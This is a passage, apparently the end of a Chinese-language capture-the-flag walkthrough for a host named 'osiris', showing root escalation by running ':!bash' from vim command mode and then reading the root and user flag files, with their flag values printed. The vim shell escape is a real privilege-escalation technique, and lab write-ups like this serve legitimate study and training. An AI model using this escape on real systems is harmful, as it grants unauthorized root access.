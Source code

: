 3. 在 `vim` 命令模式下，输入 `!bash` 或 `!sh` 并回车。

   ```vim
   :!bash
   ```

4. 成功获取 `root` 权限的交互式Shell。

**最终在 `/root` 和 `/home/tomu` 目录下找到flag。**

```bash
root@osiris:~# cat /root/root.sh
...
flag --> 1e271c5ce97e76ae8417a95c74085fba
...
root@osiris:~# cat /home/tomu/user.txt
612701a03669485d94bc687449fdab39
```